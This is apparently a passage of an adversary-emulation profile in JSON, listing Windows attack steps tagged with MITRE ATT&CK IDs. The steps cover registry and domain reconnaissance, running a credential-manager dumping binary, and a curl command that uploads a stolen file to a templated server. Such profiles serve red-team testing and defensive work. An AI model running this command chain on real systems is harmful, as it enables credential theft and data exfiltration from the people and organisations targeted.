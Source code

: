   ```bash
    {
      "ability_id": "09502b3c-7541-4c11-92a9-f55e683a6355",
      "platform": "windows",
      "commands": {
        "cmd": "reg query \"HKEY_CURRENT_USER\\Software\\Microsoft\\Terminal Server Client\\Default\""
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "Query Registry",
      "attack_id": "T1012"
    },
    {
      "ability_id": "7971246d-1392-411e-a803-a7946cf9e4d2",
      "platform": "windows",
      "commands": {
        "cmd": "net user #{initial.target.user} /domain\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "Account Discovery: Domain Account",
      "attack_id": "T1087.002"
    },
    {
      "ability_id": "6a7b4ba0-a9bb-451d-ba9f-d3a2e8a82ffe",
      "platform": "windows",
      "commands": {
        "cmd": "net group \"SQL Admins\" /domain"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "Permission Groups Discovery: Domain Groups",
      "attack_id": "T1069.002"
    },
    {
      "ability_id": "f9f1bd68-ec0a-47e7-8645-210844190d92",
      "platform": "windows",
      "commands": {
        "cmd": "nslookup #{second.target.host}\n"
      },
      "privilege": "Unknown",
      "tactic": "discovery",
      "technique": "Remote System Discovery",
      "attack_id": "T1018"
    },
    {
      "ability_id": "a23fb84f-dfb7-4d07-a6ec-0352ae983651",
      "platform": "windows",
      "commands": {
        "cmd": "C:\\Users\\#{initial.target.user}\\AppData\\local\\SystemFailureReporter\\b.exe\n"
      },
      "privilege": "Unknown",
      "tactic": "credential-access",
      "technique": "Credentials from Password Stores: Windows Credential Manager",
      "attack_id": "T1555.004"
    },
    {
      "ability_id": "021245dd-c0be-4900-bd6c-1c680f00a237",
      "platform": "windows",
      "commands": {
        "cmd": "curl -F \"data=@C:\\Users\\#{initial.target.user}\\AppData\\Roaming\\fsociety.dat\" --header \"X-Request-ID: #{initial.target.user}-#{paw}\" #{server}/file/upload\n"
      },
  ```